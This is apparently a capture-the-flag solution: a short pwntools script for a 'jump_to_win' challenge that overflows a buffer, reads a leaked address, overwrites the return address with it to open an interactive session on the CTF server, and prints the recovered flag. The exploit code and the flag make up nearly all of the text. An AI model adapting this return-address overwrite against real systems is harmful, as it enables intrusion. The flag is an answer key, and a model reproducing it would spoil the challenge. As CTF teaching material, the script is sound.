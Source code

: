 elf = context.binary = ELF("./jump_to_win")
rop = ROP(elf)
context.log_level = "DEBUG"

p = remote('ctf-metared-2021.ua.pt', 22592)

p.recvuntil(b' == Your username: \n')

first_payload = b'A' * 64 + b'UA'
p.sendline(first_payload)

p.recvline()
tmp = p.recvline()
vuln_address = tmp.decode().split(':')[1].strip().replace('\n', '')
second_payload = b'A' * 40 + p64(int(vuln_address, 0))

p.sendline(second_payload)
p.interactive()
p.close()
```

```CTFUA{Jump1ng_Ar0und_w1Th_aSlR}``` 
